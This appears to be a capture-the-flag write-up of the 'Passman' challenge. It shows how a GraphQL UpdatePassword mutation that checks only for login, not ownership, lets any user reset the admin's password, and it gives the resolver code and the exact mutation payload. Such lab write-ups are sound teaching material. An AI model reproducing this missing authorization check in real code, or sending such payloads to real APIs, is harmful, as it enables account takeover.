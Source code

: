 # Passman (easy)

This challenge was a cool little introduction to the recently widely adopted form of APIs, GraphQl.

Looking at the app from the outside we can see that we can register and login into the app, and looking deeper it is just a simple password manager. Nothing out of the ordinary so far.

looking at the source code we can see a `GraphqlHelper.js` file that has implementation of all the necessary api calls needed for the core functionality of the app. but looking real close we can see an interesting unused api call `UpdatePassword`.

```js
UpdatePassword: {
            type: ResponseType,
            args: {
                username: { type: new GraphQLNonNull(GraphQLString) },
                password: { type: new GraphQLNonNull(GraphQLString) }
            },
            resolve: async (root, args, request) => {
                return new Promise((resolve, reject) => {
                    if (!request.user) return reject(new GraphQLError('Authentication required!'));

                    db.updatePassword(args.username, args.password)
                        .then(() => resolve(response("Password updated successfully!")))
                        .catch(err => reject(new GraphQLError(err)));
                });
            }
        }
```
it might seem a bit confusing for someone new to GraphQL as we are, but it is really simple call to update the password of an arbitrary user.

we actually derived the syntax of the graphql call via monitoring the api calls that the app already makes using burp suite.

and again we can verify that there is an admin user using the SQL query executed in the `entrypoint.sh` file

```SQL
INSERT INTO passman.users (username, password, email, is_admin)
VALUES
    ('admin', '$(genPass)', 'admin@passman.htb', 1),
    ('louisbarnett', '$(genPass)', 'louis_p_barnett@mailinator.com', 0),
    ('ninaviola', '$(genPass)', 'ninaviola57331@mailinator.com', 0),
    ('alvinfisher', '$(genPass)', 'alvinfisher1979@mailinator.com', 0);
```

So we create a mutation query to the GraphQL api to update the admin password as so:

```json
{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message } }","variables":{"username":"admin","password":"aaa"}}
```

![graphql](./images/passman_burp.png)

And then we will be greeted with the flag stored in the admin's password manager dashboard that we can see by pressing the view button

![sol](./images/passman_flag.png)